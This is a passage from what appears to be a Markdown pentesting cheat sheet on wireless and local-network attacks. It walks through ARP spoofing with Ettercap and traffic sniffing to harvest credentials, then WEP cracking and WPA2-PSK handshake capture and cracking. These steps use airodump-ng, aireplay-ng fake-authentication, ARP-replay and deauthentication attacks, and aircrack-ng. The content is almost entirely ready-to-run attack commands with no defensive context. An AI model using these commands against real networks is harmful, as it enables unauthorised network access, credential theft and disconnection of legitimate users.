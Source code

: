 1. ARP Spoofing attack using [Ettercap](https://www.ettercap-project.org/)

2. Sniff the traffic using Wireshark or TCPdump

3. Analyze the traffic using [PCredz](https://github.com/lgandx/PCredz) (Linux) or [Network Miner](https://www.netresec.com/?page=networkminer) (Windows)

-------------------------

<br>

# <a name="3"></a>3. WEP cracking

1. Start capture
```bash
airodump-ng -c $AP_CHANNEL --bssid $AP_MAC -w $PCAP_FILE $IFACE
```


2. Accelerate the IV capture using *Fake authentication* + *Arp Request Replay Attack* + *Deauthenticate user*. Stop Airodump at ~100.000 different IVs

```bash
aireplay-ng -1 0 -e $AP_NAME -a $AP_MAC -h $MY_MAC $IFACE
aireplay-ng -3 -b $AP_MAC -h $MY_MAC $IFACE
aireplay-ng -0 1 -a $AP_MAC -c $STATION_MAC $IFACE
```

3. Crack the password using Aircrack-ng
```bash
aircrack-ng $PCAP_FILE
```


-------------------------


<br>

# <a name="4"></a>4. WPA2-PSK cracking

## <a name="41"></a>4.1. Cracking the 4-way-handshake

1. Start capture

```bash
airodump-ng -c $AP_CHANNEL --bssid $AP_MAC -w $PCAP_FILE $IFACE
```

2. Deauthenticate an user. Stop airodump capture when you see a message 'WPA handshake: $MAC'

```bash
aireplay-ng -0 1 -a $AP_MAC -c $STATION_MAC $IFACE
```

3. Option 1: Crack the handshake using Aircrack-ng

```bash
aircrack-ng -w $WORDLIST capture.cap
```
